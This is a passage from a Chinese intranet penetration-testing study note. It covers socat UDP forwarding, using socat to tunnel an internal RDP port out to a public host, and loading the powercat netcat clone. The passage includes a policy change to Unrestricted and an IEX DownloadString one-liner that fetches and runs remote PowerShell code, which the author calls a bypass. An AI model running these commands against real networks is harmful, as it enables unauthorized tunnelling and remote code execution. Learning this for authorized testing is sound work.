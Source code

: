 **转发 UDP 端口**

和上面一样，将 TCP 改成 UDP 即可

```
socat UDP4-LISTEN:80,fork UDP4:123.123.123.123:80
```

**NAT 映射**

通过 socat 可以将内网端口映射到公网上，不过这种场景还是更推荐用 frp

```
# 内网主机
socat tcp:123.123.123.123:4444 tcp:127.0.0.1:3389

# 公网主机
socat tcp-listen:4444 tcp-listen:5555
```

此时访问公网主机的 5555 端口就可以访问到内网主机的 3389 端口了

考虑到 socat 的其他功能平时也很少使用到，这里就不过多介绍了，网上相关文章也有很多，在此就不赘述了。

# 0x08 powercat 的使用

## 1、下载安装 powercat

powercat 可以视为 nc 的 powershell 版本，因此也可以和 nc 进行连接。

powercat 可在 github 进行下载，项目地址为：[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

下载下来 powercat.ps1 文件后，直接导入即可

```
 Import-Module .\powercat.ps1
```

如果提示未能加载指定模块，则可能是权限问题，可以参照之前写的 [【内网学习笔记】2、PowerShell](https://teamssix.com/year/210206-191859.html) 文章中的方法对其赋予权限，即在管理员模式下运行以下命令

```
Set-ExecutionPolicy Unrestricted
```

之后就可以导入 powercat 了，导入成功后，输入 powercat -h 可以看到帮助信息。

如果没有权限，也可以直接下载远程文件进行绕过。

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

不过由于 github 在国内可能会无法打开，因此可以使用 web 代理站点或者把 powercat.ps1 文件放到自己的服务器上进行下载。

## 2、powercat 的使用
